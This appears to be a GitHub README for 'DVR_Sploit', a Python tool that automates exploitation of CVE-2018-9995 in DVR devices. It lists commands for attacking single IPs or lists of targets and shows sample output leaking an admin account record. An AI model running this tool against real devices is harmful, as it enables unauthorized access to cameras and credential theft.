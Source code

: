 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: pip install -r requirements.txt

##USAGE

```bash


usage: dvrsploit.py [-h] [-f filename.txt] [-t site.com] [-p 8080]

options:
  -h, --help            show this help message and exit
  -f filename.txt, --file filename.txt
                        domains to check
  -t site.com, --target site.com
                        domain to check
  -p 80, --port 80  port number to use

# Single Target

python3 dvrsploit.py -t IP -p 80

# A list of domains

python3 dvrsploit.py -f ips.txt -p 80
python

```

Device list:

{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
